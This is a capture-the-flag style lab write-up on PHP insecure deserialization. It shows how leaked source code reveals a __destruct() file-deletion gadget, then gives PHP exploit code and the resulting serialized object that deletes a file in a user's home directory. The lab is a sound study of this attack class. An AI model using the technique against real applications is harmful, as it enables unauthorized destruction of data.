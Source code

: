This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the `morale.txt` file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: `wiener:peter`

# Recon

The web application has an authentication mechanism that contains a serialized object.

![[auth-cookie.png]]

Try to discover the source code file to check the available classes to inject the appropriate magic method.

## Finding source code

1. Run a the content discovery tool
2. Look for comments on the website


![[possible-source.png]]

I found the source-code file by checking the hint and requesting for:

```
/libs/CustomTemplate.php~
```

![[source-code-class.png]]

```PHP
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

	public function __construct($template_file_path) {
		$this->template_file_path = $template_file_path;
		$this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

Its quite clear the the vulnerable magic method is `__destruct()` as it deletes a file from a path that is controllable to the user. Create a custom object that contains the path to the target file.

Other aspect of this attack is how to trigger the execution of `__destruct()` I think when the user logs out this method is called when the session object is eliminated.

Exploit code:

```PHP
<?php

class CustomTemplate {
    public $template_file_path;
    public $lock_file_path;

	public function __construct($template_file_path) {
		$this->template_file_path = $template_file_path;
		$this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

$x = new CustomTemplate("test");
$x->lock_file_path = "/home/carlos/morale.txt";

echo var_dump(serialize($x))

?>
```

The result will be:

```
string(116) "O:14:"CustomTemplate":2:{s:18:"template_file_path";s:4:"test";s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}"
```

Which is just the object that I need to exploit this lab:

![[Advanced Topics/Insecure deserialization/labs/Arbitrary Object Injection PHP/images/exploited.png]]



